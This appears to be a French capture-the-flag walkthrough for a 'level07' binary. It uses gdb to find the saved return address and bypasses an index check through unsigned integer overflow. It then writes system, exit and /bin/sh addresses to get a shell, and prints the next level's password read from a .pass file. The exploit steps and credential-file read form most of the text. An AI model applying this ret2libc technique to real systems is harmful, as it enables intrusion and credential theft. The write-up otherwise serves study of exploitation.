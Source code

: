 # gdb:
	> b main
	> b read_number (or store_number)
	> r
	> info frame
<<< ...
<<< ...eip at 0xffffd70c
<<< ...
	> read
	> i r $eax (l'adresse de notre tableau)
<<< eax	0xffffd544

eip = 0xffffd70c
tab = 0xffffd544
eip - tab = 456
456 / 4 = 114 (On divise par 4 car un index de notre
	tab de int = 4 bytes)

donc eip = tab[114]
mais 114 % 3 == 0, donc on ne peut pas ecrire
Mais l'acces a l'index du tableau se fait par:
	adresse_tab + (index * 4)
et le check % 3 se fait avant ce calcul
l'index est un unsigned int, on va faire un tour complet de la memoire (0x100000000) et ajouter 456 pour overflow a l'index 114
apres le calcul de index * 4
donc (0x100000000 + 456) / 4 = 1073741938
En ecrivant a l'index 1073741938 on ecrit en fait a l'index 114 donc on reecrit l'adresse sur laquelle eip pointe

On recupere les adresses de:
system	hex: 0xf7e6aed0, dec: 4159090384
exit	hex: 0xf7e5eb70, dec: 4159040368
/bin/sh	hex: 0xf7f897ec, dec: 4160264172

# bash:
	> ./level07
	> store
	> 4159090384
	> 1073741938
	> store
	> 4159040368
	> 115
	> store
	> 4160264172
	> 116
	> quit
	> cat /home/users/level08/.pass
<<< 7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC